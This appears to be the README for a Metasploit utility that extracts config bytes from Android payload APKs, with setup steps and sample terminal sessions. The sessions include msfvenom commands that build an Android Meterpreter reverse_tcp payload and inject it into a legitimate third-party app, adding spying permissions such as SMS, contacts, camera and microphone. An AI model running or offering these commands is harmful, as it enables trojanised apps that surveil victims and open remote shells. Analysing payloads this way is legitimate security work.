 apk_configbytes_extract
==========

    apk_configbytes_extract - a tool to extract configbytes from an android payload.
    Usage: ./apk_configbytes_extract.rb < -a apk-file -o path -j path > [options]
    Example: ./apk_configbytes_extract.rb -a metasploit.apk -o /root/configbytes.txt -j /root/fernflower.jar
     
    Options:
        -a, --apk             <path>     Specify apk to extract configbytes
        -o, --out             <path>     Save configbytes to a file
        -j, --jar             <path>     Specify fernflower path
        -v, --verbose                    Displays verbose output
        -k, --keep                       Keep working directory
        -h, --help                       Show this message

---

TOOLS: (JAVA NEEDED)
-----------------------------
- d2j-dex2jar
- apktool
- fernflower.jar

---

### Fernflower

Among the tools needed to run apk_configbytes_extract.rb, you will need the `fernflower.jar` file

Follow these steps:

    git clone https://github.com/JetBrains/intellij-community
    cd intellij-community/plugins/java-decompiler/engine/
    ./gradlew build

You will find `fernflower.jar` in `intellij-community/plugins/java-decompiler/engine/build/libs/`

---

### Side Note:
If you do not select an output option...

(ex. `./apk_configbytes_extract -a sp_injected.apk -j /root/fernflower.jar`)

program will still run. 

However, the temporary directory where work will be done is kept and configbytes are saved inside the directory 
as configbytes.txt

---

### Example Ouput(s):
    root@kali:~/git/metasploit-framework# ./msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f raw -o /tmp/payload.apk
    [-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
    [-] No arch selected, selecting arch: dalvik from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 10185 bytes
    Saved as: /tmp/payload.apk
    
    root@kali:~/git/metasploit-framework# tools/payloads/configbytes/apk_configbytes_extract.rb -a /tmp/payload.apk -j /root/fernflower.jar
    [+] No output option selected, working in /tmp/d20210622-3759-55s3ej/
    [+] Renaming apk file to zip file
    [+] Extracting zip file for dex file
    [+] Using d2j-dex2jar on dex file to create jar file
    [+] Extracting jar file for class files
    [+] Using apktool to read AndroidManifest
    [+] Package path found: com/metasploit/stage
    [+] Using fernflower to change class file to java file
    [+] Class Path: /tmp/d20210622-3759-55s3ej/classes/com/metasploit/stage
    [+] Metasploit Payload Class found!: /tmp/d20210622-3759-55s3ej/java/Payload.java
    [+] Saved as: /tmp/d20210622-3759-55s3ej/configbytes.txt
    
    root@kali:~/git/metasploit-framework# file /tmp/d20210622-3759-55s3ej/configbytes.txt
    /tmp/d20210622-3759-55s3ej/configbytes.txt: ASCII text, with very long lines, with no line terminators
    
    
    
    
    root@kali:~/git/metasploit-framework# ./msfvenom -p android/meterpreter/reverse_tcp -x /tmp/com.ezequielc.successplanner.apk LHOST=192.168.1.8 LPORT=4444 -f raw -o /tmp/sp_injected.apk
    Using APK template: /tmp/com.ezequielc.successplanner.apk
    [-] No platform was selected, choosing Msf::Module::Platform::Android from the payload
    [-] No arch selected, selecting arch: dalvik from the payload
    [*] Creating signing key and keystore..
    [*] Decompiling original APK..
    [*] Decompiling payload APK..
    [*] Locating hook point..
    [*] Adding payload as package com.ezequielc.successplanner.sycxe
    [*] Loading /tmp/d20210622-3972-1q5ijmm/original/smali/com/ezequielc/successplanner/activities/MainActivity.smali and injecting payload..
    [*] Poisoning the manifest with meterpreter permissions..
    [*] Adding <uses-permission android:name="android.permission.CHANGE_WIFI_STATE"/>
    [*] Adding <uses-permission android:name="android.permission.WAKE_LOCK"/>
    [*] Adding <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    [*] Adding <uses-permission android:name="android.permission.WRITE_CONTACTS"/>
    [*] Adding <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
    [*] Adding <uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>
    [*] Adding <uses-permission android:name="android.permission.READ_CONTACTS"/>
    [*] Adding <uses-permission android:name="android.permission.READ_SMS"/>
    [*] Adding <uses-permission android:name="android.permission.READ_CALL_LOG"/>
    [*] Adding <uses-permission android:name="android.permission.RECORD_AUDIO"/>
    [*] Adding <uses-permission android:name="android.permission.WRITE_SETTINGS"/>
    [*] Adding <uses-permission android:name="android.permission.WRITE_CALL_LOG"/>
    [*] Adding <uses-permission android:name="android.permission.SET_WALLPAPER"/>
    [*] Adding <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
    [*] Adding <uses-permission android:name="android.permission.RECEIVE_SMS"/>
    [*] Adding <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>
    [*] Adding <uses-permission android:name="android.permission.CALL_PHONE"/>
    [*] Adding <uses-permission android:name="android.permission.RECORD_AUDIO"/>
    [*] Adding <uses-permission android:name="android.permission.SEND_SMS"/>
    [*] Adding <uses-permission android:name="android.permission.CAMERA"/>
    [*] Rebuilding apk with meterpreter injection as /tmp/d20210622-3972-1q5ijmm/output.apk
    [*] Signing /tmp/d20210622-3972-1q5ijmm/output.apk
    [*] Aligning /tmp/d20210622-3972-1q5ijmm/output.apk
    Payload size: 1991870 bytes
    Saved as: /tmp/sp_injected.apk
    
    root@kali:~/git/metasploit-framework# tools/payloads/configbytes/apk_configbytes_extract.rb -a /tmp/sp_injected.apk -j /root/fernflower.jar -o /root/sp_configbytes.txt
    [+] Renaming apk file to zip file
    [+] Extracting zip file for dex file
    [+] Using d2j-dex2jar on dex file to create jar file
    [+] Extracting jar file for class files
    [+] Using apktool to read AndroidManifest
    [+] Package path found: com/ezequielc/successplanner
    [+] Looking for Backdoored Metasploit Payload Classes
    [+] Using fernflower to change class files to java files
    [+] Class Path: /tmp/d20210622-4256-1yq1f6k/classes/com/ezequielc/successplanner/sycxe
    [+] Metasploit Backdoored Payload Class found! :/tmp/d20210622-4256-1yq1f6k/java/Wlsba.java
    [+] Saved as: /root/sp_configbytes.txt

    root@kali:~/git/metasploit-framework# file /root/sp_configbytes.txt
    /root/sp_configbytes.txt: ASCII text, with very long lines, with no line terminators

---

### In the end
apk_configbytes_extract will save configbytes of an apk in a seperate file, preferably a text file
(see [Payload 
Class](https://github.com/rapid7/metasploit-payloads/blob/1a763c6a547002f22016f10a620e975cd0c942b7/java/androidpayload/app/src/com/metasploit/stage/Payload.java#L32))

